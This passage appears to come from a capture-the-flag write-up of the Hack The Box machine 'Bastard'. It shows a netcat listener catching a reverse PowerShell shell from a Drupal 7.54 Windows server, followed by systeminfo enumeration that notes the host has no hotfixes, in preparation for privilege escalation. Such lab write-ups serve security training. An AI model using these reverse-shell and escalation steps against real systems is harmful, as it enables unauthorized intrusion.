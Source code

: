 ```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.9.
Ncat: Connection from 10.10.10.9:62897.
Windows PowerShell running as user BASTARD$ on BASTARD
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\drupal-7.54>

```

## Privesc to system

### Enumeration

I ran `systeminfo` and noticed that there’s no service path or hotfixes applied to this box:

```

PS C:\inetpub\drupal-7.54> systeminfo

Host Name:                 BASTARD
OS Name:                   Microsoft Windows Server 2008 R2 Datacenter 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00496-001-0001283-84782
Original Install Date:     18/3/2017, 7:04:46 ??
System Boot Time:          4/3/2019, 1:56:57 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
                           [02]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     2.048 MB
Available Physical Memory: 1.550 MB
Virtual Memory: Max Size:  4.095 MB
Virtual Memory: Available: 3.582 MB
Virtual Memory: In Use:    513 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.9
```